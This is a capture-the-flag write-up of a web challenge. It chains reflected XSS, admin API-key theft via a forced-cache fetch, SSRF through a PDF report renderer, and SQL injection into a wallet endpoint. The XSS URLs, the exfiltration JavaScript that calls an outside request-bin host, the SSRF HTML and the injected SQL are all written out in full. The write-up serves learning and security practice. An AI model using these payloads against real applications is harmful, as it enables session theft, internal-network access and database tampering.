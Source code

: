 # Where is my cash Writeup (Web, 478 points, 2 solves)

The [official writeup is shared
here](https://gist.github.com/l4yton/da9232b992454b429c93af0d05a1fe2f), the
trick for getting the admin key was to force the browser to use the... cache.
I've updated this writeup to include this part of the exploit because mine
varies in how I do the XSS and exfill the actual flag. This was such a cool
challenge!

## The Exploit Chain
This is how the exploit chain works, sadly I wasn't able to get the api_key during the CTF but have updated this writeup to include it after the official writeup was shared, and confirmed my other steps work.

1. XSS the Admin to steal its `api_key`
2. Send malicicous PDF using SSRF from the JavaScript to `/1.0/admin/createReport`. This is necessary because
   the caller of the next API must be from `127.0.0.1`.
3. The JavaScript makes a request to `/internal/createTestWallet` which is SQLi vulnerable.
4. The SQLi creates a wallet for our account and pulls the flag from another wallet.
5. View the flag on the /wallets page when logged in.

## Cross-Site Scripting (XSS)

The application places the query param `api_key` in the DOM like so:

```js
    <script>
        const API_TOKEN = "{{{ token }}}";
    </script>
```

The backend applies some small filters to it, which we can work around.

```js
    return req.query.api_key.replace(/;|\n|\r/g, "");
```

The simplest approach is to have a payload like `api_key="</script><script>PAYLOAD HERE` and 
this works locally, but fails when triggering it against the remote server. By running
the server locally I was able to confirm the Chromium's XSS Auditor is blocking this, 
so I needed another way.

Our payload looks like this instead `api_key="%2BEXPLOIT//`. We _intentionally_ include the URI
encoded version of `+` there, and we'll need to URI encode the whole param once more before using it.
This was another gotcha with making the admin visit. Because it gets decoded when we submit it to the
server, it then passes it in as a string with a `+` to visit, and the plus is treated as a space and
doesn't show up in the rendered output, thus we get a syntax error and it fails. When all is as expected,
we get it to render like so.

```js
    <script>
        const API_TOKEN = ""+EXPLOIT_HERE//";
    </script>
```

This is somewhat restrictive because you can't do `=` in the exploit easily and cannot use `;`,
but we can also work around this by wrapping each line of our exploit in a function, iterate over it,
and call each function. This can be seen in the exploit script itself, but it ends up basically looking
like this, and we can share state between calls using the global window.

```js
const API_TOKEN = ""+[() => { window.x = 1 }, () => { console.log(x+1) }].forEach(f => f())//";
```

A POC of the basic form of this can be seen locally with this URL, but note that we don't do the double encoding of `+`
because we want it to trigger in our browser so we can iterate on it.

```
https://wimc.ctf.allesctf.net/?api_key=%22%2Balert%28%22hi%22%29%2F%2F
```

### Making the Admin Visit

We submit the support form on https://wimc.ctf.allesctf.net/support with the XSS'd URL. You can test this like so:

1. Create a [Postbin](https://postb.in) to log requests
2. Modify this URL to include your Postbin IDs `https://wimc.ctf.allesctf.net/?api_key=%22%252Bwindow.location.replace%28%22https%3A%2F%2Fpostb.in%2F1599338333507-1126356946770%22%29%2F%2F`
3. Submit the form on https://wimc.ctf.allesctf.net/support
4. Refresh the Postbin to see the request.


### Getting the API Key

From the official writeup, the intended solution was to force the browser to load the admin user from the cache, which allows us to get their API key. In my exploit code this looks like so:

```javascript
window.requestbin = "https://postb.in/1599419937004-0317174713127?data="
fetch("https://api.wimc.ctf.allesctf.net/1.0/user", {method:"GET", cache:"force-cache"}).then(a => a.json()).then(b => location.href=requestbin%2BJSON.stringify(b))
```

Another user on IRC, Webuser4344, shared an alternate way they were able to get the flag. In my exploration I was somewhat close to this and attempting to use iframes to do something similar, but didn't get it all the way there. Here's how it worked:

1. The first XSS payload opens a new window
2. In the second window, call `window.opener.history.back()` to navigate back to the page with api_key in the url
3. Read the URL `window.opener.location.href` and exfil it.

## Server-Side Request Forgery (SSRF)

Once we have the `api_key`, we can authenticate as the admin and call the `/1.0/admin/createReport` endpoint which
allows us to upload arbitrary HTML which it will render as a PDF and then return to us. We can include a `<script>`
in our HTML and use that to trigger the SSRF. The HTML we submit looks like so:

```html
<script>
var data = "balance=1, 'TESTING WALLET 1234'), ('1', (select user_id from general where username='tpurp' limit 1), 1, (select note from wallets w where owner_id='13371337-1337-1337-1337-133713371337' limit 1)); #"

var http = new XMLHttpRequest();
http.open('POST', 'http://127.0.0.1:1337/internal/createTestWallet', true);
http.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
http.send(data);
</script>
```

## The SQLi

The implementation of the `/internal/createTestWallet` endpoint interpolates in the balance parameter directly into the query like so:

```js
var balance = req.body["balance"] || 1337;
var ip = req.connection.remoteAddress;

if (ip === "127.0.0.1") {
    // create testing wallet without owner
    var wallet_id = crypto.randomBytes(20).toString('hex').substring(0,20);
    connection.query(`INSERT INTO wallets VALUES ('${wallet_id}', NULL, ${balance}, 'TESTING WALLET 1234');`, (err, data) => {
```

The flag itself is stoed as the note for a wallet owner by a different user, so we can have the SQLi create a new wallet for our account, and set the note to the flag from the other wallet. The appliction never exposes our user_id to us, so we also use a subquery to select our account. This way we can see it on our wallets page after the injection runs.

The query itself looks like this, with newlines added for clarity. One issue that came up with MySQL is that it doesn't like you selecting from the same table (`wallets`) you are inserting into, but by aliasing it to `w` we make this error go away.
```sql
INSERT INTO wallets VALUES 
  ('${wallet_id}', NULL, 1, 'TESTING WALLET 1234'), 
  (
    '1', 
     (select user_id from general where username='tpurp' limit 1), 
     1, 
     (select note from wallets w where owner_id='13371337-1337-1337-1337-133713371337' limit 1)
  ); 
  #, 'TESTING WALLET 1234
```

## The Flag

Once this runs, we simply need to log into the application, view the wallets page, click on wallet #1, and the flag will be on the page!
